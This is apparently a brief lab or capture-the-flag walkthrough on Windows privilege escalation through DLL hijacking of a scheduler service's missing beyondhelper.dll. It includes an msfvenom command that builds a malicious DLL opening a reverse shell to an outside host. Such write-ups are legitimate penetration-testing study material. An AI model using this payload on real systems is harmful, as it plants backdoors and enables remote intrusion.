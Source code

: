 PowerUp won't find anything.

We have a service: *C:\Scheduler\scheduler.exe* that has a dependency **customlib.dll**.

We will get the executable on our machine and analyze it for DLL hijacking.
Check this: <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#finding-missing-dlls>
We will find:

**beyondhelper.dll** is missing.
We will create a malicious DLL (make sure to use x64 arch).
![unnamed_bdd640fb06674ad19c80317fa3b1799d](./unnamed_bdd640fb06674ad19c80317fa3b1799d.png)

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.227 LPORT=80 -f dll -o beyondhelper.dll
```
